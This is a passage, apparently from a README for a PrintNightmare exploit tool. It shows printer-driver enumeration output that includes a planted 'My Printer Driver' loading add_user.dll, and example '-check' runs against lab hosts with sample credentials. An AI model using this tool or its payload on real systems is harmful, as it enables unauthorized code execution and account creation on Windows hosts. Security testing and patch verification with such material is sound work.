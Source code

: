 ```bash
Version:            4
----------------------------------------------------------------
Name:               Microsoft Print To PDF
Environment:        Windows x64
Driver path:        C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll
Data file:          C:\Windows\System32\DriverStore\FileRepository\prnms009.inf_amd64_80184dcbef6775bc\MPDW-PDC.xml
Config file:        C:\Windows\System32\DriverStore\FileRepository\prnms003.inf_amd64_9bf7e0c26ba91f8b\Amd64\PrintConfig.dll
Version:            4
----------------------------------------------------------------
Name:               My Printer Driver
Environment:        Windows x64
Driver path:        C:\Windows\system32\spool\DRIVERS\x64\3\UNIDRV.DLL
Data file:          C:\Windows\system32\spool\DRIVERS\x64\3\add_user.dll
Config file:        C:\Windows\system32\spool\DRIVERS\x64\3\add_user.dll
Version:            3
----------------------------------------------------------------
Name:               Microsoft Shared Fax Driver
Environment:        Windows x64
Driver path:        C:\Windows\system32\spool\DRIVERS\x64\3\FXSDRV.DLL
Data file:          C:\Windows\system32\spool\DRIVERS\x64\3\FXSUI.DLL
Config file:        C:\Windows\system32\spool\DRIVERS\x64\3\FXSUI.DLL
Version:            3
----------------------------------------------------------------
Name:               Microsoft enhanced Point and Print compatibility driver
Environment:        Windows x64
Driver path:        C:\Windows\system32\spool\DRIVERS\x64\3\mxdwdrv.dll
Data file:          C:\Windows\system32\spool\DRIVERS\x64\3\unishare.gpd
Config file:        C:\Windows\system32\spool\DRIVERS\x64\3\PrintConfig.dll
Version:            3
----------------------------------------------------------------
```

#### Check if target is vulnerable

##### Unpatched Windows 10
```bash
$ ./printnightmare.py -check 'user:Passw0rd@172.16.19.128'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Target appears to be vulnerable!
```

##### Patched Windows Server 2022
```bash
$ ./printnightmare.py -check 'user:Passw0rd@172.16.19.135'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[!] Target does not appear to be vulnerable
```
